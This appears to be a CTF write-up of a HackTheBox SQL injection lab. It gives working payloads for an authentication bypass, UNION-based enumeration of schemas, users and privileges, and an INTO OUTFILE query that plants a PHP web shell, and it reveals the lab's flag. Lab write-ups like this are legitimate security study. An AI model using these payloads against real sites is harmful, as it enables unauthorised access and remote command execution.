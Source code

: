 # sqlinjection
sql injection is a method of how we bypass the system to find whether there is a vulnerability in a system or not, by utilising how the database works, in this ctf I used the hackthebox platform to find flags where in this lab I was asked to find the flag of a flag using sql injection.

## 1. **Login Into the page**
to enter the website I use the basic method where I try to manipulate the admin login accent by using the following command:
username:`admin' OR 1=1 -- -`
pasword: `testing`
and it output:
![loginadmin](https://drive.usercontent.google.com/download?id=14e2By7xIO0rRizcUENYfVnERnhykZaek&export=download&authuser=0&confirm=t&uuid=866a8f5a-3b4b-41e1-9eb2-dc00d2b3dc92&at=AIrpjvNVkhCJeL7VZtWccTdWOL6b:1739109049636)

## 2. Check for the table informations**
when checked the table using command `ORDER BY 5 -- -` then I can see how many tables are stored by the system, this way I can start inserting payloads on the system but if the table is more than i trying to access it will throws error:
![orderingtable](https://drive.usercontent.google.com/download?id=13l_sY8PAqw04_61-OaJkTIUAedY8JtXZ&export=download&authuser=0&confirm=t&uuid=f9e656fb-aff0-4445-b1e2-2233437668cc&at=AIrpjvMsGRMpDV6EHS-JDmb25mpj:1739108872263)
## 3. Checking the database schema 
to view the database schema where it can show information on how the database is handled and what databases exist by entering the following payload: `cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -`
with result:
![databaseschema](https://drive.usercontent.google.com/download?id=1HMOViusldhQh-RpPuC3s_rgpito8RIrt&export=download&authuser=0&confirm=t&uuid=448aeed4-4305-4bbb-a90a-6030e679b98e&at=AIrpjvP25CwG12ojwDVdnViFKElI:1739109547050)
after that i check database users that currently use the database `cn' UNION SELECT 1, user(), 3,4,5 -- -`
result:
![result](https://drive.usercontent.google.com/download?id=165qaDYEjOxZfuFzD82J8895NJvJCwDvx&export=download&authuser=0&confirm=t&uuid=ceb11ec7-0c4a-48a3-a9d6-1408fcd22950&at=AIrpjvOwEN1oBPD7C4edW41Cp2Ep:1739109619157)
## 4. Check the admin priviledge
to be able to execute the webshell I'm trying to see if users have admin priviledges and some common functionality using this payload: `cn' UNION SELECT 1, super_priv, 3,4,5 FROM mysql.user WHERE user="root"-- -` and also this payload `cn' UNION SELECT 1, grantee, privilege_type,is_grantable,5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`
result:
![result](https://drive.usercontent.google.com/download?id=1Z8436nXhK8EH39meOLffbwuMhRb55Vpm&export=download&authuser=0&confirm=t&uuid=0f57873d-39c9-43a5-935a-2e66ddd34747&at=AIrpjvPCMXMD2xepEgxK2rdqi4ry:1739109771911)
## 5. Excecute  a webshell
After I tried to enter this, I finally tried to enter this payload `cn' union select "",'<?php system($_REQUEST[0]); ?>', "","","" into outfile '/var/www/html/dashboard/shell.php'-- -`  to execute the webshell with the results after listing the root  directories:
![result](https://drive.usercontent.google.com/download?id=1oGKTYr9HRSKZF7KsFBQFfR2QnJsfCqHO&export=download&authuser=0&confirm=t&uuid=1e609fdd-b8e3-40e8-b41f-4dfc5b3b261b&at=AIrpjvNnvEtS3RKnOYp78AZPftq4:1739109951999)
and then i catting the flag file
![flag](https://drive.usercontent.google.com/download?id=1WxuFjsuQ3ghaZfiq-zXunbqCVjepU61_&export=download&authuser=0&confirm=t&uuid=f7ef62a3-f901-428e-9ef0-7082a36557fe&at=AIrpjvO2dVFO_xbrVSYlkQQSv3vH:1739110091196)
and the flag is:
`528d6d9cedc2c7aab146ef226e918396`

